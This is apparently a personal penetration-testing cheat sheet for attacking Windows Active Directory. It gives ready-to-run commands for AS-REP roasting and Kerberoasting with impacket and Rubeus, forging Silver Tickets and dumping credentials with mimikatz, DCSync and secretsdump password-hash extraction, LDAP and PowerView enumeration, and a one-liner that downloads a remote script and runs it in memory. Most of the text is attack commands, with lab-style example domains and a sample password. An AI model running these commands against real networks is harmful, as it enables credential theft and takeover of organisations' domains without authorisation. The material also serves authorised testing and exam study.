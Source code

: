> Also comprehensive: [AD Enumeration Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#domain-enumeration)

# Attack AD Authentication
## AS-REP Roasting
requires the AD user account option `Do not require Kerberos preauthentication` to be enabled. To check:
- Predefined Analysis in Bloodhound or
- PowerView’s Get-DomainUser function with the option `-PreauthNotRequired` (Windows)
- `impacket-GetNPUsers -dc-ip $ip_dc $domain/$user` (kali)
If we have GenericWrite or GenericAll on a user account, we can also enable this option our selfes ("Targeted AS-REP Roasting"). To attack:
```bash
impacket-GetNPUsers -dc-ip $ip_dc -request -outputfile hashes.asreproast $domain/$user
```
You can also use `-usersfile` to specify a list of usernames
Alternative on Windows: `Rubeus.exe asreproast /outfile:hashes.asreproast`
Then, crack the AS-REP hash with hashcat, see [[8_Hashes_cheatsheet#Hashcat]]

### Kerberoasting
Similar as AS-REP Roasting. But we attack a Service Ticket, not a TGT. We can extract password hashes from both, but this targets an SPN's service account, not a user account. As this requires a TGT, we either need to run it from a domain joined pc or provide impacket with any valid AD credentials.
> Only target SPN's running in the context of a user account. Otherwise, the password is randomly generated and infeasible to crack. The same is true for user `krbtgt`. With the right permissions, we could also set an SPN for any user account ("targeted Kerberoasting").
```bash
sudo impacket-GetUserSPNs -dc-ip $ip_dc -request -outputfile hashes.kerberoast $domain/$user
```
On error `KRB_AP_ERR_SKEW`: Synchronize kali's clock with the AD, using `ntpdate` or `rdate`
Alternative on Windows: `Rubeus.exe kerberoast /outfile:hashes.kerberoast`
Then, crack the TGS-REP hash with hashcat, see [[8_Hashes_cheatsheet#Hashcat]]

### Silver Ticket
Forge a service ticket. Requires:
- Domain SID (e.g. with `whoami`. It‘s an AD user's SID without the last value field)
- Target SPN (See output of the previous `impacket-GetUserSPNs` command)
- SPN NTLM Password Hash (e.g. mimikatz on a system with a session. `privilege::debug` and `sekurlsa::logonpasswords`)
```mimikatz
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /domain:corp.com /ptt /user:jeffadmin
```
> As we forge this ticket, we can select and user we want. Here, it's jeffadmin. A patch enforced since Oct. 22 denies the creation of service tickets for non-existent users. `/ptt` injects the ticket directly into memory.

### DC Synchronization
Requires user with `Replicating Directory Changes`, `Replicating Directory Changes All`, and `Replicating Directory Changes in Filtered Set` rights (by default: Domain Admins, Enterprise Admins, and Administrators).
Then, we can act as DC ourselfes and request all AD user's password hashes.
```mimikatz
lsadump::dcsync /user:corp\dave
```
Alternative on Kali: `impacket-secretsdump -just-dc-user $uname_target $domain/$uname_privileged:$password_privileged@$ip_dc` (e.g. `dave corp.com/jeffadmin:"Flowers1"@192.168.50.70`)


# Manual  Enumeration Approach
### Primary DC (PDC):
```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
```
and DN:
```powershell
([adsi]'').distinguishedName
```
Then set LDAP path of AD:
```powershell
$LDAP = LDAP://$PDC/$DN
```
(e.g. `LDAP://DCSRV1.beyond.com/DC=beyond,DC=com`)

Also, change the Enumeration Limit:
```powershell
$Global:FormatEnumerationLimit = 100
```

##### Set up `$dirsearcher`
```powershell
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher(New-Object System.DirectoryServices.DirectoryEntry($LDAP))
```
### User
```powershell
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()
Foreach($obj in $result){ $obj.Properties | select {$_.name}, {$_.memberof}, {$_.logoncount} | Format-List }
```
Alternative: `net user /domain`

### Groups
```powershell
$dirsearcher.filter="objectclass=group"
$result = $dirsearcher.FindAll()
Foreach($obj in $result){ $obj.Properties | select {$_.cn}, {$_.member} | Format-List }
```
Alternative: `net group /domain`
List of default groups: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups
To get more details on a group: `$dirsearcher.filter="(&(objectCategory=group)(cn=Sales Department))"; $dirsearcher.FindAll()`

### AD-integrated services
```powershell
setspn -L $user
```

### Logged-In users
```powershell
.\PsLoggedon.exe \\$host
```
(SysInternals, requires _Remote Registry service_ on the target which is disabled by default since Windows 8, but enabled on Windows Server 2012 R2, 2016 (1607), 2019 (1809), and Server 2022 (21H2))

### ACEs to an object
```powershell
Get-ObjectAcl -Identity $object [ | ? {"GenericAll", "GenericWrite", "WriteOwner", "WriteDACL" -eq $_.ActiveDirectoryRights} ] | Select ActiveDirectoryRights, SecurityIdentifier
```
The middle part restricts the search to full-access but can be left out.
Permission descriptions:
	GenericAll: Full permissions on object
	GenericWrite: Edit certain attributes on the object
	WriteOwner: Change ownership of the object
	WriteDACL: Edit ACE's applied to object
	AllExtendedRights: Change password, reset password, etc.
	ForceChangePassword: Password change for object
	Self (Self-Membership): Add ourselves to for example a group
The SecurityIdentifier names the principal that has the listed permission to the queued object. As object, we can use the cleartext name to any AD object, e.g., an user, group or share name.
Make SID human readable: `Convert-SidToName $sid` (PowerView)

-----------

# ADPeas
```powershell
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
```
Wrapper arount BloodHound, PowerView and much more.

# PowerView.ps1

##### Users
```powershell
Get-NetUser | select cn, pwdlastset,lastlogon
````

```powershell
Get-NetGroup | select cn, member
```
##### Systems
```powershell
Get-NetComputer | select operatingsystem, operatingsystemversion, dnshostname
```
##### Systems the current user has admin privs on
```powershell
Find-LocalAdminAccess
```
##### Logged-In users
```powershell
Get-NetSession -ComputerName $host -Verbose
```
(Only works below Windows Server 2019 build 1809 or Windows 10 build 1709)
##### AD-integrated services
```powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
##### Shares
```powershell
Find-DomainShare
```
Use flag `-CheckShareAccess` to only list shares we have access to.
##### Check DCSync Permission
```powershell
Get-ObjectAcl -DistinguishedName "dc=XXX,dc=XXX,dc=XXX" -ResolveGUIDs | ?{($_.IdentityReference -match "XXXUSERNAMEXXX") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
##### Map Trusts
```powershell
Get-NetForestDomain | Get-NetDomainTrust
```

